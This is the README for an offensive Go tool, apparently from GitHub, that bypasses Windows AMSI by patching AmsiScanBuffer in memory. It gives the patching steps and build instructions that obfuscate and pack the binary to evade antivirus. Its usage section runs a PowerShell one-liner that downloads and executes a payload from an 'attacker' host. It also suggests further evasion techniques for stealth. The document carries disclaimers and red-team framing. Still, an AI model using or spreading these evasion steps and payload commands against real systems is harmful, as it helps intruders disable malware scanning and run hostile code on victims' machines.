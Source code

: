 # AuroraPatch: AMSI Bypass Tool in Go

![Go](https://img.shields.io/badge/Go-1.24.2-blue)
![License](https://img.shields.io/github/license/grisuno/amsi)

**AuroraPatch** is a lightweight, offensive Go tool that bypasses Windows AMSI (Anti-Malware Scan Interface) by patching the `AmsiScanBuffer` function in memory. Designed for red teamers and security researchers, it allows execution of scripts that would otherwise be blocked by Defender or other AMSI-integrated AVs.

> ⚠️ **For authorized use only.**  
> This tool is intended for penetration testing, ethical hacking, and educational purposes.

---

## 🌟 What is AMSI?

AMSI (Anti-Malware Scan Interface) is a Windows security feature that enables antivirus solutions to scan scripts (PowerShell, WMI, etc.) in real time. AuroraPatch demonstrates how AMSI can be bypassed by directly modifying memory in the current process.

---

## 🔧 How It Works

AuroraPatch performs the following steps:
1. Loads `amsi.dll` dynamically.
2. Resolves the address of `AmsiScanBuffer`.
3. Changes memory permissions using `VirtualProtectEx`.
4. Patches the first byte of `AmsiScanBuffer` with `0xC3` (`ret` instruction).
5. Restores original memory permissions.

## Result:  
✅ `AmsiScanBuffer` returns immediately — no scan occurs.  
🛡️ Effective for bypassing AMSI during post-exploitation.

> 🔁 **In-memory only**: Patch is volatile and lasts only for the current process.

---

## ⚠️ Legal & Ethical Disclaimer

This tool is **strictly for educational and authorized security assessments**.  
Unauthorized use may violate laws or regulations.  
The author assumes **no liability** for misuse.

---

## 🛠️ Build Instructions

Compiles to a Windows executable using cross-compilation, obfuscation (`garble`), and compression (`UPX`).

### Prerequisites
- Go 1.24.2+
- MinGW-w64 (`x86_64-w64-mingw32-gcc`)
- `garble` (Go obfuscator)
- `upx`

Install `garble`:
```bash
go install github.com/burrowers/garble@latest
```
Build (from Linux/WSL)
```bash
make windows
```
Output:
amsi.exe  # Obfuscated, compressed Windows executable

- ✅ Binary is obfuscated with garble -literals -tiny and packed with UPX to reduce detection. 

## ▶️ Usage

Run on target Windows system:
```cmd

amsi.exe
```
Expected output:
```cmd
[+] AMSI patched: AmsiScanBuffer replaced with ret
AMSI bypass successful. Test with PowerShell or WMI scripts.
```
Now execute blocked scripts:
```powershell
powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')"
```

🔄 Patch only affects the current process. Restarting restores AMSI protection. 

## 🧹 Clean Build Artifacts

```bash
make clean
```

## 📂 Project Structure

```text
├── amsi.go        # Main logic: AMSI patching via Windows API
├── go.mod         # Go module definition
├── go.sum         # Dependency checksums
└── Makefile       # Cross-compilation and obfuscation rules
```

## 🧲 Technical Details
- Uses golang.org/x/sys/windows for low-level Windows API access.
- No external dependencies beyond standard Go and x/sys.
- Direct memory manipulation via:
- LoadLibrary / GetProcAddress
- OpenProcess
- VirtualProtectEx
- WriteProcessMemory

## 🛑 Detection & Evasion
- Static (AV)
- Reduced via
- garble + UPX
- Dynamic (EDR)
- May trigger on memory RWX, process injection
- Persistence
- None (in-memory only)

💡 Tip: Combine with other evasion techniques (sleep masking, API unhooking, etc.) for better stealth.

## 📚 References
- Microsoft AMSI Docs
- garble - Go Obfuscator
- UPX Executable Packer


![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) ![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white) [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2Z73AV)
